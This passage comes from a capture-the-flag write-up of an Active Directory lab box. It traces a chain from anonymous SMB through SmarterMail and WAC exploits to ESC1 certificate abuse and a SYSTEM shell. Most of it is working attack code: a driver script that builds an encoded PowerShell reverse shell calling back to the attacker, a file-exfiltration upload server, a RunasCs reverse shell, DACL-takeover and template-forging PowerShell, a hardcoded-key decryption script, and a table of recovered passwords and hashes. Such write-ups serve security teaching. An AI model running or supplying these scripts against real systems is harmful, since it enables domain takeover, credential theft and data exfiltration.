$dn="CN=VPNUserTemplate,CN=Certificate Templates,CN=Public Key Services,CN=Services,$configNC"
$jake='S-1-5-21-4220238332-57023728-1129110646-1103'
$cur=(Get-Acl "AD:$dn").Sddl
$dacl=$cur.Substring($cur.IndexOf('D:'))
$sd=New-Object System.DirectoryServices.ActiveDirectorySecurity
$sd.SetSecurityDescriptorSddlForm("O:${jake}G:${jake}"+$dacl+"(A;;CCDCLCSWRPWPDTLOSDRCWDWO;;;$jake)")
Set-ADObject $dn -Replace @{nTSecurityDescriptor=$sd.GetSecurityDescriptorBinaryForm()}

# 2) Add exactly the attributes event 77 complained about:
Set-ADObject $dn -Add @{'msPKI-Minimal-Key-Size'=[int]2048; 'msPKI-Private-Key-Flag'=[int]16842752; 'msPKI-RA-Signature'=[int]0}
```

(Executed as single-line commands — multi-line pastes glue together in a reverse shell and merge commands into garbage.)

The recipe that finally worked, end to end:

1. **OID object** under the OID container with `flags=2` and a unique `msPKI-Cert-Template-Oid`.
2. **Template object** with *every* attribute copied from `User` (null-guarded), schema v2 fields intact.
3. **DACL** containing SYSTEM / Domain Admins / Enterprise Admins full control (so the CA — reading AD as DC$ — can load it) **plus** an explicit Enroll ACE (`0e10c968-78f3-11d2-90cc-00c04fd91ab1`) for jake.h.
4. `msPKI-Certificate-Name-Flag = 1` → `ENROLLEE_SUPPLIES_SUBJECT` → ESC1.
5. Patience on the request: valid enrollments **hang** while the CA issues.


## ESC1 Exploitation — Administrator Certificate via PKINIT

### Requesting the Certificate

One detail that matters on this DC: **strong certificate mapping** is in play, so the request embeds not only the target UPN but the Administrator's **objectSID** (`-sid`), making the cert unambiguously map to RID 500:

```bash
$ certipy req -timeout 240 -u 'jake.h@danglingtree.htb' -p 'Pwned123!@#' \
    -dc-ip [TARGET_IP] -target [TARGET_IP] \
    -ca 'danglingtree-DC-CA' -template 'VPNUserTemplate' \
    -upn 'administrator@danglingtree.htb' \
    -sid 'S-1-5-21-4220238332-57023728-1129110646-500'
```

```
[*] Requesting certificate via RPC
[*] Request ID is 45
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@danglingtree.htb'
[*] Certificate object SID is 'S-1-5-21-4220238332-57023728-1129110646-500'
[*] Saved certificate and private key to 'administrator.pfx'
```

No instant denial — the request hung, then came back issued. **Request ID 45**, `administrator.pfx` in hand.

### PKINIT + UnPAC-the-hash

```bash
$ certipy auth -pfx administrator.pfx -dc-ip [TARGET_IP]
```

```
[*] Using principal: administrator@danglingtree.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@danglingtree.htb': aad3b435b51404eeaad3b435b51404ee:8cacb3a97e460c65d105ca7cd9913925
```

**Administrator NTLM: `8cacb3a97e460c65d105ca7cd9913925`.**

### Pass-the-Hash → Root

```bash
$ impacket-smbexec -hashes ':8cacb3a97e460c65d105ca7cd9913925' 'danglingtree.htb/Administrator@[TARGET_IP]'
```

```
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
57e81aa99201297bfb339492481e5fa4
```

(If smbexec ever dies with `not enough values to unpack`, the `-hashes` value needs the full LM:NT form — leading colon included.)


## Root Flag

```
57e81aa99201297bfb339492481e5fa4
```


## Loot Summary

| Principal | Secret | How |
|---|---|---|
| anderson.w | `R3dT3am@Acc3ss#01` | Anonymous SMB share (`ITShare\onboarding.txt`) |
| svc_mail | `Hacked123!@#` (set by us) | CVE-2026-23760 unauth SmarterMail sysadmin password reset via loopback API |
| noah.b | `RiverDragon#Storm25` | DES-encrypted in backup `settings.json`; hardcoded key/IV `b43f84d110b4e991` / `01d8aee649ad9227` reversed from `SmarterMail.Standard.dll` |
| alex.o | `SunsetMountainPeak@2025` | DPAPI offline decryption of noah.b's saved cmdkey credential (masterkey `f53fcaba-...`) |
| jake.h | `Pwned123!@#` (set by us) | alex.o ForceChangePassword → bloodyAD password reset |
| Administrator | NTLM `8cacb3a97e460c65d105ca7cd9913925` | Recreated dangling ESC1 template → cert with UPN+SID of RID 500 → PKINIT UnPAC-the-hash |

**Kill chain:** anon SMB → WAC CVE-2026-26119 (auth-only REST API) → SmarterMail CVE-2026-23760 (loopback) → volume-mount RCE (svc_mail) → hardcoded DES keys (noah.b) → DPAPI saved cred (alex.o) → ForceChangePassword (jake.h) → CreateChild on PKI containers → dangling ESC1 template → Administrator cert → PTH → SYSTEM/root.


## Appendix — Scripts

### A. `svc_mail_reentry.sh` — full initial-access driver (WAC → svc_mail shell)

```bash
#!/bin/bash
# DanglingTree re-entry: fresh IP -> anderson.w (WAC API) -> svc_mail shell
# Usage:
#   export BOX=<box_ip> XSRF='<x-xsrf-token>' COOKIE='<full cookie string>'
#   export TUN0=<your_tun0_ip>          # optional, auto-detected
#   ./svc_mail_reentry.sh check         # sanity: whoami via WAC
#   ./svc_mail_reentry.sh reset         # CVE-2026-23760: reset svc_mail SmarterMail pw
#   ./svc_mail_reentry.sh shell         # auth + AddOrUpdateMount RCE -> callback on LPORT
#   ./svc_mail_reentry.sh run "<cmd>"   # arbitrary command as anderson.w via WAC
set -euo pipefail

: "${BOX:?export BOX=<box ip> (Stage 1 of the runbook)}"
: "${XSRF:?export XSRF=<x-xsrf-token from browser>}"
: "${COOKIE:?export COOKIE=<full cookie string from browser>}"

TUN0="${TUN0:-$(ip -4 -o a show tun0 2>/dev/null | awk '{print $4}' | cut -d/ -f1 || true)}"
: "${TUN0:?could not detect tun0 IP; export TUN0 manually}"
LPORT="${LPORT:-443}"                 # 443 confirmed open outbound; 8001 fallback
NODE="${NODE:-dc}"
SM_USER='svc_mail'
SM_PASS='Hacked123!@#'

WAC_URL="https://${BOX}:6600/api/services/WinREST/PowerShell/nodes/${NODE}/invokeCommand"

# --- send a PowerShell script through the WAC invokeCommand API ---
wac_ps() {
    local script="$1" body
    body=$(jq -n --arg s "$script" \
        '{properties:{script:$s,state:"ready",useInProcRunspace:false,invokeMode:"Polling"}}')
    curl -sk --max-time 60 "$WAC_URL" \
        -H "x-ms-sme-jea-endpoint: http://schemas.microsoft.com/powershell/Microsoft.PowerShell" \
        -H "x-ms-sme-module-name: msft.sme.shell" \
        -H "x-xsrf-token: ${XSRF}" \
        -H "Cookie: ${COOKIE}" \
        -H "Content-Type: application/json" \
        --data "$body"
}

# --- wrap any PS script as UTF16LE-b64 iex (kills all quoting problems) ---
ps_wrap() {
    local b64
    b64=$(printf '%s' "$1" | iconv -f UTF-8 -t UTF-16LE | base64 -w0)
    wac_ps "\$c=[Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('${b64}')); iex \$c"
}

show() {  # pretty-print WAC results if jq is around
    if command -v jq >/dev/null; then jq -r '.results // .' ; else cat; fi
    echo
}

# --- build the svc_mail reverse-shell payload (powershell -nop -enc form) ---
build_enc() {
    local payload
    payload="\$c=New-Object Net.Sockets.TCPClient(\"${TUN0}\",${LPORT});\$s=\$c.GetStream();[byte[]]\$b=0..65535|%{\$i=0};while((\$i=\$s.Read(\$b,0,\$b.Length)) -ne 0){\$d=(New-Object Text.ASCIIEncoding).GetString(\$b,0,\$i);\$r=(iex \$d 2>&1|Out-String);\$r2=\$r+\"PS \"+(pwd).Path+\"> \";\$sb=[text.encoding]::ASCII.GetBytes(\$r2);\$s.Write(\$sb,0,\$sb.Length);\$s.Flush()};\$c.Close()"
    printf '%s' "$payload" | iconv -f UTF-8 -t UTF-16LE | base64 -w0
}

cmd_check() {
    echo "[*] WAC whoami sanity check (expect danglingtree\\anderson.w / dc)..."
    wac_ps 'whoami; hostname' | show
}

cmd_reset() {
    echo "[*] CVE-2026-23760: force-reset SmarterMail sysadmin '${SM_USER}'..."
    ps_wrap "try { Invoke-RestMethod -Uri 'http://127.0.0.1:17017/api/v1/auth/force-reset-password' -Method Post -ContentType 'application/json' -Body '{\"IsSysAdmin\":\"true\",\"OldPassword\":\"x\",\"Username\":\"${SM_USER}\",\"NewPassword\":\"${SM_PASS}\",\"ConfirmPassword\":\"${SM_PASS}\"}' | ConvertTo-Json -Compress } catch { 'ERR: ' + \$_.Exception.Message + ' || ' + \$_.ErrorDetails.Message }" | show
}

cmd_shell() {
    local enc mount_ps
    enc=$(build_enc)
    echo "[*] Payload -> ${TUN0}:${LPORT}  (make sure 'sudo nc -lvnp ${LPORT}' is ALREADY listening)"
    read -r -p "    listener up? [y/N] " a; [[ "${a:-n}" =~ ^[Yy]$ ]] || { echo "aborted"; exit 1; }
    mount_ps="\$t = ((Invoke-WebRequest -Uri 'http://127.0.0.1:17017/api/v1/auth/authenticate-user' -Method Post -ContentType 'application/json' -Body '{\"username\":\"${SM_USER}\",\"password\":\"${SM_PASS}\"}' -UseBasicParsing).Content | ConvertFrom-Json).accessToken
\$h = @{Authorization = ('Bearer ' + \$t)}
\$mp = 'C:\\Windows\\Temp\\rce' + (Get-Random)
\$body = @{MountPath=\$mp; CommandMount='powershell -nop -enc ${enc}'; CommandUnmount=''; Enabled=\$true} | ConvertTo-Json
try { Invoke-WebRequest -Uri 'http://127.0.0.1:17017/api/v1/settings/sysadmin/AddOrUpdateMount' -Method Post -Headers \$h -ContentType 'application/json' -Body \$body -UseBasicParsing | Out-Null; 'MOUNT_FIRED path=' + \$mp } catch { 'ERR: ' + \$_.Exception.Message + ' || ' + \$_.ErrorDetails.Message }"
    ps_wrap "$mount_ps" | show
    echo "[*] 'Failed to mount' on the target is EXPECTED — check your listener for the svc_mail shell."
}

cmd_run() {
    ps_wrap "try { $1 } catch { 'ERR: ' + \$_.Exception.Message + ' || ' + \$_.ErrorDetails.Message }" | show
}

case "${1:-}" in
    check) cmd_check ;;
    reset) cmd_reset ;;
    shell) cmd_shell ;;
    run)   shift; cmd_run "$*" ;;
    *) echo "usage: $0 {check|reset|shell|run <cmd>}"; exit 1 ;;
esac
```

### B. `decrypt.py` — extract hardcoded key/IV blobs and crack the SmarterMail password

```python
#!/usr/bin/env python3
# Reads the four 8-byte static-array blobs (keymap1/2 key+IV) out of
# SmarterMail.Standard.dll via the FieldRva metadata table, then tries
# DES and RC2 against the password_encrypted ciphertext with PKCS7 validation.
import base64
import dnfile
from Crypto.Cipher import DES, ARC2

CT = base64.b64decode('66e7ppLOBF7UdzDv7zK6MJ1rmyUb1Cby')

# <PrivateImplementationDetails> blob field names -> role (from monodis IL of .cctor)
targets = {
    '6358808B9D2E7DAF789A729078B45CE267623E1A58204EE85C2164107BC22759': 'keymap1.key',
    '70992CDC3F000761B083836A71E62B39CDE2DDEFB3CE16B3ECA702337DEFB01E': 'keymap1.iv',
    '3EFEA1DC9873C47136B982B90E487430FD222964ECE883624E0751568E470AB5': 'keymap2.key',
    '2ED3CD73F7820445EE9578F8EDED5E522B6711F3F0F10C2FDFC49363B4F35A44': 'keymap2.iv',
}

pe = dnfile.dnPE('SmarterMail.Standard.dll')

blobs = {}
for row in pe.net.mdtables.FieldRva:          # mdtables, NOT mdtable (first-run AttributeError)
    try:
        name = str(row.Field.row.Name)
    except Exception:
        continue
    if name in targets:
        blobs[targets[name]] = pe.get_data(row.Rva, 8)

for label, b in blobs.items():
    print(f"[*] blob '{label}' = {b.hex()}")

def unpad(p):
    n = p[-1]
    if 1 <= n <= 8 and p.endswith(bytes([n]) * n):
        return p[:-n]
    return None

for km in ('keymap1', 'keymap2'):
    key, iv = blobs[f'{km}.key'], blobs[f'{km}.iv']
    for algo, mod in (('DES', DES), ('RC2', ARC2)):
        print(f"[*] trying {algo:4s} {km}...", end=' ')
        try:
            pt = mod.new(key, mod.MODE_CBC, iv).decrypt(CT)
            u = unpad(pt)
            if u and all(32 <= c < 127 for c in u):
                print(f"\n[HIT] {km} {algo} : {u}")
            else:
                print("no")
        except Exception as e:
            print("err", e)
```

Output:

```
[*] blob 'keymap1.key' = 7d71e8e9a0227bd0
[*] blob 'keymap1.iv'  = e0de080e1d8a8bdf
[*] blob 'keymap2.key' = b43f84d110b4e991
[*] blob 'keymap2.iv'  = 01d8aee649ad9227
[HIT] keymap2 DES : b'RiverDragon#Storm25'
```

### C. Kali PUT-upload server (exfil on port 8001)

```python
#!/usr/bin/env python3
# Tiny PUT-upload server for pulling files off the target.
# Target egress confirmed on 443 and 8001 only. Run: python3 put_server.py
# On target: curl.exe -T <file> http://[ATTACKER_IP]:8001/<name>
from http.server import HTTPServer, BaseHTTPRequestHandler

class H(BaseHTTPRequestHandler):
    def do_PUT(self):
        n = int(self.headers.get('Content-Length', 0))
        fn = self.path.lstrip('/') or 'upload.bin'
        with open(fn, 'wb') as f:
            f.write(self.rfile.read(n))
        print(f"[+] saved {fn} ({n} bytes)")
        self.send_response(200)
        self.end_headers()

HTTPServer(('0.0.0.0', 8001), H).serve_forever()
```

> If the target gets `501 Unsupported method ('PUT')`, port 8001 is occupied by a GET-only `python3 -m http.server` — kill it (`ss -lntp | grep 8001`) and start this instead.

### D. `tpl.ps1` — create OID + certificate template as jake.h

```powershell
# tpl.ps1 - recreate a dangling ESC1 template (run as jake.h on the DC)
$configNC = (Get-ADRootDSE).configurationNamingContext
$pks      = "CN=Public Key Services,CN=Services,$configNC"
$tplPath  = "CN=Certificate Templates,$pks"
$oidPath  = "CN=OID,$pks"
$jakeSid  = (Get-ADUser jake.h).SID.Value
$name     = 'RemoteAccessVPN'
$tplOid   = '1.3.6.1.4.1.311.21.8.12345678.87654321.13579.24680.11223344.55667788.1234567'

# 1) msPKI-Enterprise-Oid object (jake.h has CreateChild over the OID container)
New-ADObject -Name $name -Type 'msPKI-Enterprise-Oid' -Path $oidPath -OtherAttributes @{
    'DisplayName'           = $name
    'flags'                 = 2
    'msPKI-Cert-Template-Oid' = $tplOid
}

# 2) Security descriptor: owner = jake.h (NOT O:DA -> error 1307),
#    full control for jake/SYSTEM/DA/EA + Enroll (0e10c968-...) for jake + read for AU
$sddl = "O:${jakeSid}G:${jakeSid}D:PAI" +
        "(A;;CCDCLCSWRPWPDTLOSDRCWDWO;;;$jakeSid)" +
        "(OA;;CR;0e10c968-78f3-11d2-90cc-00c04fd91ab1;;$jakeSid)" +
        "(A;;LCLORC;;;AU)" +
        "(A;;CCDCLCSWRPWPDTLOSDRCWDWO;;;SY)" +
        "(A;;CCDCLCSWRPWPDTLOSDRCWDWO;;;DA)" +
        "(A;;CCDCLCSWRPWPDTLOSDRCWDWO;;;EA)"
$sd = New-Object System.DirectoryServices.ActiveDirectorySecurity
$sd.SetSecurityDescriptorSddlForm($sddl)

# 3) pKICertificateTemplate object (attributes modeled on the built-in 'User' template)
$user = Get-ADObject "CN=User,$tplPath" -Properties *
New-ADObject -Name $name -Type 'pKICertificateTemplate' -Path $tplPath -OtherAttributes @{
    'DisplayName'                     = $name
    'flags'                           = 131680
    'revision'                        = 100
    'msPKI-Certificate-Name-Flag'     = 1            # ENROLLEE_SUPPLIES_SUBJECT -> ESC1
    'msPKI-Enrollment-Flag'           = $user.'msPKI-Enrollment-Flag'
    'msPKI-Template-Schema-Version'   = 2
    'msPKI-Template-Minor-Revision'   = 3
    'msPKI-Minimal-Key-Size'          = 2048
    'msPKI-Private-Key-Flag'          = 16842752
    'msPKI-RA-Signature'              = 0
    'msPKI-Cert-Template-Oid'         = $tplOid
    'pKIDefaultKeySpec'               = $user.pKIDefaultKeySpec
    'pKICriticalExtensions'           = $user.pKICriticalExtensions
    'pKIDefaultCSPs'                  = $user.pKIDefaultCSPs
    'pKIExpirationPeriod'             = $user.pKIExpirationPeriod
    'pKIOverlapPeriod'                = $user.pKIOverlapPeriod
    'pKIExtendedKeyUsage'             = $user.pKIExtendedKeyUsage
    'pKIKeyUsage'                     = $user.pKIKeyUsage
    'nTSecurityDescriptor'            = $sd.GetSecurityDescriptorBinaryForm()
}
```

### E. `fix-vpn3.ps1` — User-twin attribute copy (event-77 driven repair)

```powershell
# fix-vpn3.ps1 - copy EVERY attribute from the working 'User' template onto our template.
# Motivation: CA Application event log (event 77) shows hand-rolled templates FAIL TO LOAD
# due to missing attributes; the CA then reports TEMPLATE_DENIED / UNSUPPORTED_CERT_TYPE.
$configNC = (Get-ADRootDSE).configurationNamingContext
$tplPath  = "CN=Certificate Templates,CN=Public Key Services,CN=Services,$configNC"
$src = "CN=User,$tplPath"
$dst = "CN=VPNUserTemplate,$tplPath"

$u = Get-ADObject $src -Properties *
$t = Get-ADObject $dst -Properties *

$skip = 'cn','name','distinguishedname','objectclass','objectguid','whencreated',
        'whenchanged','usncreated','usnchanged','instancetype','dscorepropagationdata',
        'ntsecuritydescriptor','displayname'

$replace = @{}; $add = @{}
foreach ($p in $u.PSObject.Properties.Name) {
    if ($skip -contains $p.ToLower()) { continue }
    if ($null -ne $u.$p) {                     # -Replace dies on null values -> guard
        if ($null -ne $t.$p) { $replace[$p] = $u.$p }
        else                 { $add[$p]      = $u.$p }
    }
}

Set-ADObject $dst -Replace $replace
if ($add.Count) {
    Write-Host "MISSING on target: $($add.Keys -join ', ')"
    Set-ADObject $dst -Add $add                # needs jake.h write ACE -> run DACL fix first
}

# re-flip the ESC1 bit (User has it off)
Set-ADObject $dst -Replace @{'msPKI-Certificate-Name-Flag' = [int]1}
```

### F. The two winning oneliners (DACL self-repair + final attributes)

```powershell
# 1) Owner re-adds his own full-control ACE (DACL rewrite, owner preserved).
#    Set-Acl fails (tries to write owner) -> binary nTSecurityDescriptor replace works.
$configNC=(Get-ADRootDSE).configurationNamingContext; $dn="CN=VPNUserTemplate,CN=Certificate Templates,CN=Public Key Services,CN=Services,$configNC"; $jake='S-1-5-21-4220238332-57023728-1129110646-1103'; $cur=(Get-Acl "AD:$dn").Sddl; $dacl=$cur.Substring($cur.IndexOf('D:')); $sd=New-Object System.DirectoryServices.ActiveDirectorySecurity; $sd.SetSecurityDescriptorSddlForm("O:${jake}G:${jake}"+$dacl+"(A;;CCDCLCSWRPWPDTLOSDRCWDWO;;;$jake)"); Set-ADObject $dn -Replace @{nTSecurityDescriptor=$sd.GetSecurityDescriptorBinaryForm()}

# 2) Add exactly the attributes event 77 named:
Set-ADObject $dn -Add @{'msPKI-Minimal-Key-Size'=[int]2048; 'msPKI-Private-Key-Flag'=[int]16842752; 'msPKI-RA-Signature'=[int]0}
```

### G. Quick-reference — the rest of the chain

```bash
# DPAPI offline decryption (Kali)
impacket-dpapi masterkey -file /tmp/mk1.bin -password 'RiverDragon#Storm25' \
    -sid S-1-5-21-4220238332-57023728-1129110646-1602
impacket-dpapi credential -file /tmp/cred.bin -key 0x7120d9ad...d0d8

# ForceChangePassword abuse (Kali)
bloodyAD --host [TARGET_IP] -d danglingtree.htb -u alex.o -p 'SunsetMountainPeak@2025' \
    set password jake.h 'Pwned123!@#'

# Shell as jake.h (logon type 3 + remote impersonation)
RunasCs.exe jake.h 'Pwned123!@#' powershell -r [ATTACKER_IP]:4446 -d danglingtree --remote-impersonation -l 3

# ESC1 -> admin cert (note -sid for strong mapping, -timeout 240 for slow issuance)
certipy req -timeout 240 -u 'jake.h@danglingtree.htb' -p 'Pwned123!@#' \
    -dc-ip [TARGET_IP] -target [TARGET_IP] -ca 'danglingtree-DC-CA' \
    -template 'VPNUserTemplate' -upn 'administrator@danglingtree.htb' \
    -sid 'S-1-5-21-4220238332-57023728-1129110646-500'

# PKINIT -> NT hash -> PTH
certipy auth -pfx administrator.pfx -dc-ip [TARGET_IP]
impacket-smbexec -hashes ':8cacb3a97e460c65d105ca7cd9913925' 'danglingtree.htb/Administrator@[TARGET_IP]'
```

*Writeup by mikias*
